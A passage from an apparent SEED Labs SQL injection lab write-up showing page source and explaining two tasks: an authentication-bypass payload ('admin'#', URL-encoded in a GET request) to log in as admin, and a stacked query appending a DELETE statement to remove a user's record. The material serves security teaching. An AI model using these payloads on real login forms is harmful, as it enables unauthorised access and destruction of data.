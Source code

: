 ```html
        <p>
          Copyright &copy; SEED LABs
        </p>
      </div>
    </div>
    <script type="text/javascript">
    function logout(){
      location.href = "logoff.php";
    }
    </script>
  </body>
  </html>
```

**Explanation:**

From [Task 2.1](#task-21), we realized that the input is passed as URL parameters to `/unsafe_home.php`. Based on this, we can use curl to send a `GET` HTTP request with the input similar to [Task 2.1](#task-21).

For `username`, we need to URL encode `admin'#`. The result is `admin%27%23`. Then for `password`, we can just leave it blank. After putting all these together, the URL formed is `http://www.seedlabsqlinjection.com/unsafe_home.php?username=admin%27%23&Password=`.

#### Task 2.3

Append a new SQL statement to delete a record from the database:

```sql
SELECT id, name, eid, salary, birth, ssn, phoneNumber, address, email, nickname, password
FROM credential
WHERE Name = 'admin'; DELETE FROM credential WHERE Name = 'Samy';#' and Password = '$hashed_pwd';
```

![Deleting Samy from login form](./assets/sqli_task_02_03_01.png)
